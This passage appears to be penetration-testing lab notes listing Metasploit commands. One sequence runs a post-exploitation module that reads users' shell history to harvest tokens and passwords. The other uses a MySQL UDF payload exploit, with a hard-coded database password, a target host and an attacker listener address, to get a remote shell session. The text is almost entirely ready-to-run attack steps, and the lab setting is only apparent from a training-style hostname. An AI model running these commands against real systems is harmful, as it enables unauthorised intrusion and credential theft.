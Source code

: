 #### Post Exploitation Metasploit Modules
> Enumerate users history . Sometime there may be tokens, password for various services in the history file.
```
background
use post/linux/gather/enum_users_history
set SESSION 1
run

```

#### Mysql to shell

```
exploit/multi/mysql/mysql_udf_payload
set FORCE_UDF_UPLOAD true
set PASSWORD fArFLP29UySm4bZj
set RHOSTS server2.ine.local
set TARGET 1
set LHOST 192.73.96.2
exploit
session -i 2
```

